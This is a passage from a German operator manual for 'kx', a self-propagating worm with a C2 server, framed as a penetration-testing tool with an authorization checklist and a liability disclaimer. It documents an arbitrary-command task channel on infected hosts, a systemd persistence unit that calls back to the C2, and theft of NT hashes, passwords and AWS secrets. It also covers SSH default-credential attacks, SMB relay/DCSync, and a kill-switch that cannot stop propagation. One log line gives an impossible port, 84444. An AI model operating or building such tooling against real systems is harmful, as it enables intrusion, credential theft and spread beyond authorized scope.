# Hosts abfragen
curl -sk -H "Authorization: Bearer $KX_TOKEN" https://127.0.0.1:8443/api/hosts
```

**Fehlerbilder der Auth-Middleware**

| Situation | Antwort |
|---|---|
| kein `Authorization`-Header | `401` |
| falsches Token | `401` |
| unbekannter Pfad mit gültigem Token | `404` |
| gültiges Token auf Vertragspfad | `200` |

Ein Außenstehender erfährt so nicht, ob ein Pfad existiert.

---

## 8 · Steuerung im laufenden Betrieb

### 8.1 Was der Operator steuern kann

| Wunsch | Werkzeug | Wirkung |
|---|---|---|
| Registry einsehen | `kx-cli hosts` / `secrets` / `tasks` | Datenstand des C2-Servers |
| Export der Beute | `kx-cli export` | JSON/CSV in eine Datei |
| **Befehl ausführen** | `kx-cli task-create` | Task anlegen — der Agent führt ihn aus |
| Logs verfolgen | `RUST_LOG` | siehe [8.2](#82-logging) |
| Lauf abbrechen | `Ctrl-C` / `systemctl stop kx-agent` | Agent-Prozess beenden, Persistenz bleibt! |

### 8.1.1 Der Task-Kanal

Das ist der eigentliche Fernsteuerungskanal des C2: der Operator legt ein
Kommando an, der Agent führt es auf dem Zielsystem aus und meldet das Ergebnis
zurück.

```bash
# 1. Ziel-Host identifizieren
./target/release/kx-cli --cert /tmp/kx-server.pem hosts
#    → 10.0.0.5   workstation   Windows   compromised

# 2. Task anlegen
./target/release/kx-cli --cert /tmp/kx-server.pem task-create \
  --host_id 10.0.0.5 --command "whoami"

# 3. Task läuft beim nächsten Agentenlauf ab, Ergebnis abwarten

# 4. Status und Ergebnis ansehen
./target/release/kx-cli --cert /tmp/kx-server.pem tasks
```

Ablauf im Detail:

| Schritt | Wer | Was |
|---|---|---|
| 1 | Operator | `task-create` legt einen Task mit Status `pending` an |
| 2 | Agent | `GET /api/tasks`, filtert Tasks mit eigener `host_id` und Status `pending` |
| 3 | Agent | führt das Kommando aus (`sh -c` / `cmd /C`) |
| 4 | Agent | `POST /api/tasks/result` mit Status `done`/`failed` und Ausgabe (max. 8 KiB) |
| 5 | Operator | liest Status und Ergebnis über `GET /api/tasks` |

> **Achtung:** Der Task-Kanal ist **beliebige Codeausführung** auf dem
> Zielsystem. Wer das Bearer-Token hat, hat damit Root-äquivalente Rechte auf
> dem Agenten-Host — das Token ist damit deutlich mehr als ein Lesezugriff.
> Es gibt keine Whitelist, keine Sandbox und kein Timeout für ein Kommando.
> Behandle das Token entsprechend und räume die Tasks nach dem Test auf.

### 8.2 Logging

Beide Binaries loggen über `tracing`; die Ausgabe steuert `RUST_LOG`:

```bash
RUST_LOG=info  ./target/release/kx-server --token "$KX_TOKEN"     # Standard
RUST_LOG=debug ./target/release/kx-agent --server … --token …     # Details
RUST_LOG=warn  ./target/release/kx-server --token "$KX_TOKEN"     # nur Warnungen
```

Der Server gibt bei fehlendem Token **keinen** Tokenwert aus — er meldet nur,
dass eines generiert wurde.

### 8.3 Der Agent als Dienst

Der Agent schreibt beim Start seine eigene systemd-Unit:

```ini
# /etc/systemd/system/kx-agent.service (automatisch erzeugt)
[Unit]
Description=Kx Agent
After=network-online.target

[Service]
Type=simple
EnvironmentFile=/etc/kx/kx-agent.env
ExecStart=/tmp/kx-agent --server https://… --token ${KX_C2_TOKEN} \
  --server-cert /etc/kx/kx-server.pem --iface eth0 \
  --start 192.168.10.1 --end 192.168.10.50 --own-ip 192.168.10.1
Restart=always
RestartSec=30

[Install]
WantedBy=multi-user.target
```

Das Token steht in `/etc/kx/kx-agent.env` (Modus 0600), nicht in der Unit. Die
Unit enthält alle Pflichtargumente — ohne sie startet der Dienst in einer
Neustartschleife (das war ISSUE-10).

```bash
systemctl daemon-reload
systemctl enable --now kx-agent
journalctl -u kx-agent -f
```

### 8.4 Testprotokoll

Für den Nachweis gegenüber dem Auftraggeber:

```bash
# Protokoll der Erkennungen sichern
./target/release/kx-cli --cert kx-server.pem hosts    | tee befund-hosts.txt
./target/release/kx-cli --cert kx-server.pem secrets  | tee befund-secrets.txt
./target/release/kx-cli --cert kx-server.pem export befund-export.json --format json
```

Anschließend: Export löschen, SQLite-Datenbank löschen oder versiegeln,
Persistenz auf allen Zielsystemen entfernen.

---

## 9 · Sicherheit und Härtung

### Checkliste vor dem ersten Lauf

- [ ] **Schriftliche Genehmigung** liegt vor, Scope und Zeitfenster sind
      dokumentiert
- [ ] Token erzeugt, in Vaultwarden abgelegt, **nicht** in Repo, Shell-History
      oder Chat
- [ ] Server-Token kommt aus einer Environment-Datei (0600), nicht aus der
      Kommandozeile (`/proc/<pid>/cmdline` ist lesbar)
- [ ] C2-Port nur für das Testnetz freigegeben — Firewall oder Reverse-Proxy
- [ ] TLS abgesichert: Port nur intern, `kx.local` ist ein selbstsigniertes
      Zertifikat ohne CA-Kette
- [ ] Beute-Verzeichnisse (SQLite-DB, CSV/JSON-Exporte, Logs) liegen auf einem
      verschlüsselten Datenträger
- [ ] Kill-Switch festgelegt: `systemctl stop kx-agent` + Persistenz entfernen
- [ ] Kein Scan außerhalb des genehmigten Netzes — `--start`/`--end`/`--hosts`
      sind die einzigen Stellschrauben, sie gehören in die Beweissicherung

### Grundsätze

| Thema | Umsetzung |
|---|---|
| Zugriffsschutz | Bearer-Token, `constant_time`-Vergleich, 401 statt 403 |
| Informationsleck | unbekannte Pfade → 404, nicht 401 |
| XSS | jeder API-Wert wird escaped, bevor er in die Tabelle kommt |
| Token-Leaks | kein Token im Query-String, kein Token im stderr, Environment-Datei 0600 |
| **Token = Ausführungsrechte** | Der Task-Kanal führt beliebige Kommandos auf dem Zielsystem aus — das Token ist damit ein Vollzugriff, kein Lesezugriff |
| Beute im Klartext | NT-Hashes und Passwörter in DB und Export — verschlüsselt ablegen, danach löschen |
| Persistenz | nach dem Test auf **allen** Zielsystemen entfernen |

### Was kx nicht schützt

- Das C2-Zertifikat ist selbstsigniert, ohne CA-Kette. Es schützt gegen
  Mitschnitten, nicht gegen einen Angreifer mit Zugriff auf den Server.
- Der Bearer-Token ist der einzige Faktor. Es gibt keine Nutzerkonten, keine
  Rollen, keine Rotation.
- Die Datenbank ist unverschlüsselt. SQLite liest sie im Klartext.
- Der Wurm propagiert sich. Der Kill-Switch ist ein `systemctl stop`, kein
  Netzwerk-Gate.

---

## 10 · Troubleshooting

| Symptom | Ursache | Lösung |
|---|---|---|
| `cargo: command not found` | rustup nicht im PATH | `export PATH="$HOME/.cargo/bin:$PATH"` |
| `error: no such command: kx-agent-sys` | Alias mit nicht existentem Feature `syscalls` | `cargo kx-agent` verwenden |
| Build bricht mit `AF_PACKET` / `SIOCGIFINDEX` ab | ARP-Sweep ist Linux-only | auf Linux bauen; der Rest ist plattformübergreifend |
| Server startet, `/api/hosts` → 401 | Token fehlt oder falsch | `--token` bzw. `KX_SERVER_TOKEN` prüfen |
| Token wirkt unbekannt, obwohl gesetzt | Server hat ein **zufälliges** Token erzeugt und nicht ausgegeben | Server immer mit explizitem `--token` starten |
| `unknown field` beim Deserialisieren eines JSON | Antworttyp hat `deny_unknown_fields` | Client und Server gemeinsam aktualisieren (ADR-0001) |
| Agent: `ARP-Sweep fehlgeschlagen` | kein Root/`CAP_NET_RAW`, oder Interface falsch | `--iface` prüfen, `setcap` setzen, sonst `--hosts` nutzen |
| Agent: `sshpass nicht gefunden` | SSH-Default-Credentials nicht installiert | `apt install sshpass` / `brew install sshpass` |
| Agent hängt nach `Offener Port 22 … (ssh)` | `sshpass` wartet ohne Timeout in der Authentifizierungsphase | ISSUE-14 — Lauf mit `timeout 300` kapseln oder Ziele ohne Port 22 wählen |
| Agent: `SMB-Relay fehlgeschlagen` | Impacket/Python fehlt, Ziel kein Windows | `pip3 install impacket`, Ziel prüfen |
| CLI: TLS-Fehler | Zertifikat passt nicht zum Server | `--cert` neu aus dem laufenden Server ziehen (Schritt 3) |
| `certificate not valid for name "127.0.0.1"` | Der Host in der URL passt nicht zum Zertifikatsnamen | URL-Host == `--cn`; z. B. `--cn c2.test.local` + Hosts-Eintrag, oder `--cn localhost` für lokale Tests |
| CLI: `PemLoad` / `not a CA` | falsche Datei oder Server neu gestartet | PEM neu exportieren; Server-Neustart erzeugt ein neues Zertifikat |
| `Database is locked` | zwei Server-Instanzen auf derselben DB | nur eine Instanz pro DB-Datei |
| 404 auf einem bekannten Pfad | falsche Route oder ohne Token (401/404-Mix) | Route gegen [Abschnitt 7](#7--c2-api-referenz) prüfen |
| `ERR_CERT_AUTHORITY_INVALID` | Zertifikat wird nicht vertraut | `--cert`/`--server-cert` auf die PEM-Datei zeigen lassen |

**Neu erzeugtes Zertifikat nach jedem Server-Neustart:** Der Server erzeugt das
Zertifikat beim Start neu. Agent und CLI brauchen danach ein aktualisiertes
`--server-cert`/`--cert`.

---

## 11 · Bekannte Einschränkungen

Der Arbeitsvorrat liegt als Markdown-Issues unter
[`.scratch/c2-operability/issues/`](./.scratch/c2-operability/issues/), der
Ablaufplan in [`EPIC.md`](./.scratch/c2-operability/EPIC.md).

**Welle 1 (Betrieb herstellen) ist abgeschlossen:** ISSUE-1 (Serverstart),
ISSUE-8 (`ml-kem`-Pin), ISSUE-10 (systemd-Unit), ISSUE-12 (API-Authentifizierung),
ISSUE-13 (Dashboard-Escaping und Token im Query-String).

**Welle 2 — Stand der Codeprüfung heute:**

| Issue | Thema | Zustand im Code |
|---|---|---|
| ISSUE-2 | Port 445 fehlt in `COMMON_PORTS` | **behoben** — 445 und 3389 stehen in der Liste (Commit `4b6e179`), die Issue-Datei ist nicht nachgezogen |
| ISSUE-3 | `try_default_credentials` ist ein Stub | **behoben** — echter Versuch über `sshpass`; die Issue-Datei ist nicht nachgezogen |
| ISSUE-4 | Credential Manager liefert bei *einem* Credential eine leere Liste | offen — betrifft nur Windows |
| ISSUE-5 | Doc-Fix `--range` im Beispiel-Binary | offen |
| ISSUE-6 | `tasks`-Tabelle ohne Wirkung | **behoben** — der Agent holt offene Tasks, führt sie aus und meldet das Ergebnis (PR #8) |
| ISSUE-7 | `wmi_exec` ohne Aufrufer | offen — der Code ist implementiert, wird aber nicht ausgeführt |
| ISSUE-9 | Post-Quantum-Verschlüsselung inaktiv | offen — `kx-core/src/hostkey.rs` ist auskommentiert, das Modul wird nicht kompiliert |
| ISSUE-11 | Token im Debug-Output | in Arbeit |
| ISSUE-14 | Agent hängt im SSH-Default-Credential-Test (`sshpass` ohne Timeout) | offen — neu am 2026-11-15 reproduziert |

Die Felder `sealed_master` und `master_key` gehören bereits zum Wire-Vertrag,
werden vom Agenten aber als `None` gesendet. Server und Agent behandeln beide
tolerant, bis das Material wirklich erzeugt wird.

---

## 12 · Tests und CI

```bash
cd kx
cargo test --workspace                     # 74 Tests, 0 Fehler (je Plattform)
cargo test -p kx-core c2::tests::host_deserializes_from_server_json
cargo build --release -p kx-server
```

`.github/workflows/ci.yml` ist das einzige Gate:

| Job | Matrix | Prüft |
|---|---|---|
| `build-and-test` | `ubuntu-latest` + `macos-latest` | `cargo fmt --check`, `cargo build --workspace --all-targets`, `cargo test --workspace` |
| `server-smoke-test` | `ubuntu-latest` | Release-Binary starten, 401/401/200/404 prüfen |

`cargo fmt --check` **ist** inzwischen ein Gate — der Workspace ist seit
Commit `825511b` durchformatiert, ein PR mit unformatiertem Code fällt durch.
Ein **clippy**-Gate gibt es weiterhin nicht; die Warnungen von
`cargo clippy --workspace --all-targets` sind bewusst nicht erzwungen.

Der Smoke-Test ist wichtig, weil er die Fehlerklasse abdeckt, die ein reiner
Testlauf nicht sieht: Start-Panic und eine offene API.

### Betriebsnachweis vom 2026-11-15

Die folgenden Schritte wurden auf dem macOS-Host gegen den Release-Build
ausgeführt — nicht nur beschrieben:

| Prüfung | Ergebnis |
|---|---|
| `cargo test --workspace` | **63 Tests grün, 0 Fehler** auf dem lokalen Branch-Stand; auf `origin/main` sind es **74 Tests je Plattform** (CI, 2026-11-15) |
| `kx-server` starten | `Kx-Server lauscht auf https://127.0.0.1:84444 (API: …)` |
| `GET /api/hosts` ohne Token | `401` |
| `GET /api/hosts` mit falschem Token | `401` |
| `GET /api/hosts` mit korrektem Token | `200` |
| `GET /gibtsnicht` mit korrektem Token | `404` |
| `POST /api/register` | `201` |
| `POST /api/tasks/new` | `201` |
| `POST /api/login` falsch / richtig | `401` / `200` |
| Zertifikat via `openssl s_client` ziehen | PEM erzeugt, SAN `DNS:localhost` |
| `kx-cli --cert … hosts` | `0 Hosts gefunden`, exit 0 — TLS + Auth + JSON-Pfad grün |
| `kx-agent` (Self-Registration, Secret-Upload, TCP-Scan) | Host `127.0.0.1` mit Status `agent` in der Registry, AWS-Secrets hochgeladen |
| `kx-agent` Persistenz-Installation ohne Root | `Permission denied (os error 13)` — erwartet, nicht fatal |
| `kx-agent` im SSH-Zweig | **Hänger reproduziert** → ISSUE-14 |

Nicht geprüft (bleibt offen): Verhalten gegen echte Windows-Ziele, der
SMB-Relay-DCSync-Pfad mit echtem Impacket, die Post-Quantum-Verschlüsselung
(ISSUE-9) und der Task-Ausführungskreis (Agent holt Task → führt aus → meldet
Ergebnis) auf einem echten Zielsystem.

---

## 13 · Repository-Struktur

```
testwurm/
├── README.md                  ← dieses Betriebshandbuch
├── CLAUDE.md                  ← Regeln für Claude Code
├── AGENTS.md                  ← derselbe Inhalt für Codex
├── GLOSSARY.md                ← verbindliche Terminologie
├── docs/
│   ├── egm-blueprint.md       ← Repository-Blueprint (Systemgrenzen, Invarianten)
│   ├── adr/0001-…             ← Architekturentscheidung C2-Vertrag
│   └── agents/                ← Issue-Tracker- und Domain-Konventionen
├── kx/                        ← Rust-Workspace (einziger Quellcodebaum)
│   ├── Cargo.toml             ← 9 Member, [workspace.dependencies], Profile
│   ├── .cargo/config.toml     ← Cargo-Aliase
│   ├── README.md              ← Architektur- und Vertragsdoku des Workspace
│   └── crates/
│       ├── kx-core/           ← C2-Wire-Vertrag, KXENC, util
│       ├── kx-scanner/        ← ARP-Sweep (Linux), TCP-Scan, Fingerprint
│       ├── kx-exploit/        ← SMB-Relay, WMI-Exec, Default-Credentials
│       ├── kx-win/            ← Windows-Secrets + Persistenz
│       ├── kx-posix/          ← POSIX-Secrets + Persistenz
│       ├── kx-tls/            ← selbstsignierte Zertifikate, rustls-Configs
│       ├── kx-server/         ← axum-API, SQLite, Dashboard
│       ├── kx-agent/          ← der Wurm (Orchestrator)
│       └── kx-cli/            ← Operator-Interface
├── .scratch/c2-operability/   ← EPIC, Design-Entwurf, 14 Issues
└── wissen/                    ← Recherche-Wissenssammlung
```

Jedes Crate hat eine `README.md`, die Module haben eine `README.md` in `src/` —
dort steht der Vertrag des jeweiligen Moduls, der beim Ändern mitgeführt
werden muss.

---

## Haftung und Lizenz

Dieses Werkzeug ist für **legitime Sicherheitsforschung** gedacht. Der Autor
übernimmt keine Haftung für missbräuchliche Verwendung. Du allein bist
verantwortlich sicherzustellen, dass dein Einsatz legal ist.

MIT-Lizenz (siehe `kx/Cargo.toml`, `[workspace.package] license = "MIT"`).
